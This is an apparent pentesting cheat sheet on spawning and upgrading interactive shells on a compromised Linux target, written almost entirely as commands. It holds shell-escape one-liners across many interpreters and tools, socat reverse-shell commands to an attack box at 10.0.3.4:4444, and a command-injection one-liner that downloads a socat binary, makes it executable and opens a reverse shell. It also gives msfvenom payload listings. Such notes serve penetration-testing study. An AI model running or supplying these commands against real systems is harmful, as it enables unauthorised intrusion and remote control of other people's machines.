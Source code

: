 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# Spawn a shell


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).
    - 


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c "import pty;pty.spawn('/bin/bash')"
```

### ssh

```bash
/bin/sh -i
```


### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### ruby

```bash
ruby:  exec "/bin/sh";
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



### awk

```bash
awk 'BEGIN {system("/bin/sh")}'
```


### find 

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.

find . -exec /bin/sh \; -quit
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
```


### VIM

```bash
vim -c ':!/bin/sh'
```

**VIM escape**:

```shell-session
vim
:set shell=/bin/sh
:shell
```